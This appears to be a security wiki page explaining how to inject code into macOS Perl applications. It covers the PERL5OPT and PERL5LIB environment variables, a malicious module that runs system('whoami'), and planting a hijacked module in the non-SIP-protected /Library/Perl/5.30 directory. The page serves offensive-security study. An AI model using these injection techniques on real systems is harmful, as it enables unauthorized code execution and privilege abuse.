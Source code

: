 # macOS Perl Applications Injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

## Via `PERL5OPT` & `PERL5LIB` env variable

Using the env variable PERL5OPT it's possible to make perl execute arbitrary commands.\
For example, create this script:

{% code title="test.pl" %}
```perl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
{% endcode %}

Now **export the env variable** and execute the **perl** script:

```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```

Another option is to create a Perl module (e.g. `/tmp/pmod.pm`):

{% code title="/tmp/pmod.pm" %}
```perl
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
{% endcode %}

And then use the env variables:

```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```

## Via dependencies

It's possible to list the dependencies folder order of Perl running:

```bash
perl -e 'print join("\n", @INC)'
```

Which will return something like:

```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```

Some of the returned folders doesn't even exist, however, **`/Library/Perl/5.30`** does **exist**, it's **not** **protected** by **SIP** and it's **before** the folders **protected by SIP**. Therefore, someone could abuse that folder to add script dependencies in there so a high privilege Perl script will load it.

{% hint style="warning" %}
However, note that you **need to be root to write in that folder** and nowadays you will get this **TCC prompt**:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (28).png" alt="" width="244"><figcaption></figcaption></figure>

For example, if a script is importing **`use File::Basename;`** it would be possible to create `/Library/Perl/5.30/File/Basename.pm` to make it execute arbitrary code.

## References

* [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}


